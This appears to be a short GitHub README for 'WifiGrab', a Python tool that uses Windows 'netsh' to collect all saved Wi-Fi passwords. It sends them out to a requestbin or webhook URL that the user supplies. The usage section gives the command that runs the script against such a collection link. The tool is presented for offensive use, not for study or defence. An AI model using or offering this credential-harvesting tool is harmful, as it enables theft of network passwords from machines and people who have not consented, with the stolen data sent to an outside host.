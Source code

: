 ![wifi](https://user-images.githubusercontent.com/90532971/194433840-5279b1b1-74a0-4a71-a379-9c2b2b227621.png)

#  >> WifiGrab
A little python tool which take advantage of using the 'netsh' command and grabs all the WIFI saves password. Made this tool and tested it on Windows 10. this script working with the help of using URL that collects requests (requestbin/webhook).

#  >> Usage
1. Python3 Wifitakeover.py -l / -link [HTTP-REQUEST-LINK]
2. Copy you're URL requestbin/webhook into the code when running.
3. Wait for the process to finish.
